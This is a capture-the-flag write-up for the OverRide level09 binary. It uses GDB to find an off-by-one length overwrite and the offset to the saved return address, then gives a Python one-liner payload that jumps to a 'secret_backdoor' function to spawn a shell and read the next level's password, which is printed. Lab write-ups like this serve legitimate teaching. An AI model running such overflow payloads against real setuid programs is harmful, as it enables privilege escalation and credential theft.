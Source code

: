 # level09

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

In GDB, addresses are not accurate until the program is running.

```gdb
(gdb) info function secret_backdoor 
All functions matching regular expression "secret_backdoor":
Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

In `set_username` function, we will write 41 bytes to begin to overflow the same buffer use in `set_msg` function. The byte after the 40 is the length used in the `strncpy` of `set_msg`.

We can see that with the following command, EIP is overwritten:

```gdb
(gdb) r <<< $(python -c "print 40 * 'a' + '\xff' + '\n' + 'A' * 2000")
Starting program: /home/users/level09/level09 <<< $(python -c "print 40 * 'a' + '\xff' + '\n' + 'A' * 2000")
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude

Breakpoint 2, 0x00005555555549c6 in set_msg ()
(gdb) c
Continuing.
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/i 0x0000555555554931
   0x555555554931 <handle_msg+113>:     ret
(gdb) i f
Stack level 0, frame at 0x7fffffffe5e8:
 rip = 0x555555554931 in handle_msg; saved rip 0x4141414141414141
 called by frame at 0x7fffffffe5f8
 Arglist at 0x4141414141414141, args: 
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffe5f0
 Saved registers:
  rip at 0x7fffffffe5e8
```

We overwrite here on the `eip` of `handle_msg` function.

```gdb
=> 0x00005555555549c6 <+148>:   call   0x555555554720 <strncpy@plt>
(gdb) x/wx $rdi
0x7fffffffe520: 0x0000000a
(gdb) p/d 0x7fffffffe5e8-0x7fffffffe520
$8 = 200
```

We can see here that the address of `eip` in `handle_msg` is 200 bytes far from the destination address of `strcnpy`.

The last thing is that `secret_backdoor` function uses `fgets` before calling `system`. We just need to pass `/bin/sh`.

Try to get the flag:

```bash
level09@OverRide:~$ (python -c "print 40 * 'a' + '\xd0' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh'";cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

